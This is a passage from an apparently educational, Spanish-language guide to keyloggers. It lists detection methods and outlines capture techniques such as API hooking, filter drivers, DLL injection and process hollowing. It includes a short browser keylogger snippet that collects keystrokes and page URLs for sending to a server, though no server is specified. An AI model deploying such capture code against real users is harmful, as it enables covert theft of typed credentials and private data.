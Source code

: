 ```
Detection Methods:
├── Rootkit scanners
├── Behavioral analysis
├── System call monitoring
├── Memory dump analysis
└── Boot-time scanning
```

**Web-based Keyloggers:**
```javascript
// Ejemplo básico de keylogger JavaScript (solo educativo)
document.addEventListener('keydown', function(event) {
    // Capturar tecla presionada
    var key = event.key;
    var timestamp = new Date().toISOString();
    
    // Enviar datos a servidor (método malicioso)
    // NOTA: Este código es solo para fines educativos
    sendToServer({
        key: key,
        timestamp: timestamp,
        url: window.location.href
    });
});
```

### Funcionamiento Técnico

#### Métodos de Captura
```
Keyboard Input Capture Methods:
├── API Hooking
│   ├── SetWindowsHookEx (Windows)
│   ├── GetAsyncKeyState polling
│   ├── Raw Input API
│   └── DirectInput interception
├── Driver-level Interception
│   ├── Filter drivers
│   ├── Minifilter drivers
│   ├── Keyboard class driver hooks
│   └── Port driver modifications
├── Injection Techniques
│   ├── DLL injection into processes
│   ├── Code injection into system processes
│   ├── Process hollowing
│   └── Reflective DLL loading
└── Browser-specific Methods
    ├── JavaScript event listeners
    ├── Browser extension keyloggers
    ├── Form grabbing techniques
    └── Clipboard monitoring
```
